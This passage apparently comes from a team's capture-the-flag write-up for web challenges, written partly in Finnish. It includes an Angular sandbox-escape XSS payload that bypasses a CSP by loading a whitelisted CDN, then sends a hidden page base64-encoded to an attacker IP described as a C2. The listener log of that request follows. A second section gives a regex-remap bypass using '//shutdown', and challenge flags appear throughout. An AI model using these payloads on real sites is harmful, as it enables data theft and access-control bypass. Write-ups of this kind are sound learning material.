 Notice that `script-src` has a `host` whitelist as:
	script-src 'self' 'unsafe-eval' https://cdnjs.cloudflare.com/;

Having cloudflare JS whitelisted, this opens many different routes, such as "importing" some angular functions to play with. With the following code, we should be ablo to extract the hidden `/alien` page as base64 to our C2.

```js
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };var z=new XMLHttpRequest();z.onreadystatechange=function(){if (z.responseText) location="http://165.227.234.68/?KEKW="+btoa(unescape(encodeURIComponent(z.responseText)))};z.open("GET","http://127.0.0.1/alien",false);z.send();//');}} </div>
```

```
Connection received on 165.227.231.249 56754
GET /?KEKW=PGh0bWwgbGFuZz0iZW4iPgogICA8aGVhZD4KICAgICAgPG1ldGEgY2hhcnNldD0iVVRGLTgiPgogICAgICA8dGl0bGU+VGhlIEdhbGFjdGljIFRpbWVzPC90aXRsZT4KICAgICAgPG1ldGEgbmFtZT0idmlld3BvcnQiIGNvbnRlbnQ9IndpZHRoPWRldmljZS13aWR0aCwgaW5pdGlhbC1zY2FsZT0xLCB1c2VyLXNjYWxhYmxlPW5vIj4KICAgICAgPGxpbmsgcmVsPSJpY29uIiBocmVmPSIvc3RhdGljL2ltYWdlcy9mYXZpY29uLnBuZyI+CiAgICAgIDxsa...
gICAgICAgIDwvZGl2PgogICAgICA8L2Rpdj4KICAgPC9ib2R5Pgo8L2h0bWw+ HTTP/1.1
Host: 165.227.234.68
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/90.0.4427.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

#### Flag
CHTB{th3_wh1t3l1st3d_CND_str1k3s_b4ck}

### ~~Cessation~~

*Antti*

```conf
# remap.config
regex_map http://.*/shutdown http://127.0.0.1/403
regex_map http://.*/ http://127.0.0.1/
```

Haluamme luultavasti nähdä shutdown sivun. Tämän regex remapin ohittaa helposti tekemällä requesti osotteeseen `//shutdown`

CHTB{c3ss4t10n_n33d_sync1ng_#@$?}

## Pwn

### ~~Controller~~
*Hobbit*
